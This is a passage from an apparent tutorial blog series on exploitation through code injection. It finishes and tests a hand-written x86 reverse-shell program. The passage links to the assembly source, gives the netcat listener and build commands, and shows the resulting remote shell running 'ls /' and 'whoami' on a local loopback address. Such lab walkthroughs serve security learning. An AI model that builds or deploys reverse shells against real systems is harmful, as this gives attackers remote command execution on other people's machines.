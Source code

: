 With that, we have a completed program. You can download the complete program [here](/assets/2018-12-07-exploitation-using-code-injection-part03/revshell.asm). I have not made any changes with respect to assembly code. It is what we have written in the above 6 steps. I have added a few more comments which will help you understand the program better. 


Now that we have written the program, let us test it. 

1. Run server first: 

        /$ nc -l 127.1.1.1 -p 10000 -v
        Listening on [127.1.1.1] (family 0, port 10000)

2. Get the executable **revshell** and run it. 

        rev_eng_series/post_11$ nasm revshell.asm -f elf32
        rev_eng_series/post_11$ ld revshell.o -o revshell -m elf_i386
        rev_eng_series/post_11$ ./revshell

3. Reaction on the server side: 

        /$ nc -l 127.1.1.1 -p 10000 -v
        Listening on [127.1.1.1] (family 0, port 10000)
        Connection from [127.0.0.1] port 10000 [tcp/webmin] accepted (family 2, sport 59908)

    * It says connection accepted. 
    * Let us try a few commands and check: 

            ls /
            bin
            boot
            cdrom
            core
            dev
            etc
            home
            initrd.img
            initrd.img.old
            lib
            lib32
            lib64
            libx32
            lost+found
            media
            mnt
            opt
            proc
            root
            run
            sbin
            snap
            srv
            sys
            tmp
            usr
            var
            vmlinuz
            vmlinuz.old
            whoami
            adwi
